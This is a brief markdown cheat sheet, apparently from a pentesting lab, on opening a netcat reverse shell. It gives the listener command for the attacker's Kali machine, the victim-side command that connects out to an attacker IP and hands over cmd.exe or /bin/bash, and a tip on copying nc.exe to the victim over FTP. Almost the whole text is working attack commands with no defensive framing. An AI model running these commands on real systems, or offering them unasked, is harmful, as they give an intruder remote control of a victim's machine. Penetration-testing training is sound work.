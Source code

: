 #### Reverse shell
- attacker machine listen


##### lab
- nc -nvlp 1234 [ attacker kali machine ]
- nc.exe -nv attaker_ip -e cmd.exe [ in victim windows machine,use /bin/bash if target system is linux]
  
#### Note 
- We need to transfer the nc.exe file from the kali machine to victim windows machine via ftp server
- we can find it /usr/share/windows-resources/binaries
